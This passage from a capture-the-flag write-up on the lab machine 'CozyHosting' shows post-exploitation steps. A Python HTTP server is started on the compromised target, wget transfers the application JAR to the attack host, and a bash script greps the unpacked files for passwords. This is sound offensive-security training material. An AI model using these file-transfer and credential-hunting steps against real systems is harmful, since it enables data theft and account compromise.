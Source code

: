 ```bash
# Starting a Python HTTP server on the target host
python3 -m http.server 8888
# Downloading the JAR file to the attack host
wget http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar -O ch.jar
```

<figure><img src="../../.gitbook/assets/cozyhosting_jar_transfer.png" alt=""><figcaption><p>Figure 11: Transferring the JAR file to our attack host.</p></figcaption></figure>

This JAR contains 47 directories and 266 files, so enumerating them 1 by 1 is definetely not an option. We will create a simple bash script to do that for us which will then tweak if needed.

{% code title="search_pass.sh" overflow="wrap" %}
```bash
#!/bin/bash

# Read every file starting from the cj_jar directory
find ch_jar/ -type f 2>/dev/null | while read -r file; do
        # Check if the file contains the word password
        if [[ -n $(cat "${file}" | grep password) ]]; then
                # Print the filename
                echo -e "${file} \n"
                # Print the line along with the previous 5 lines
                echo -e "Content:\n $(cat ${file} | grep --before-context=5 password) \n"
        fi
done
```
{% endcode %}

We will give the script execute permissions (`x`) and hope for the best (Figure 12).

```bash
# Assigning execute pemission to the script
$ chmod +x search_pass.sh
# Executing the script
$ ./search_pass.sh
```


[^1]: Database Management System
[^2]: Database Admin
[^3]: Living off The Land
[^4]: Command Injection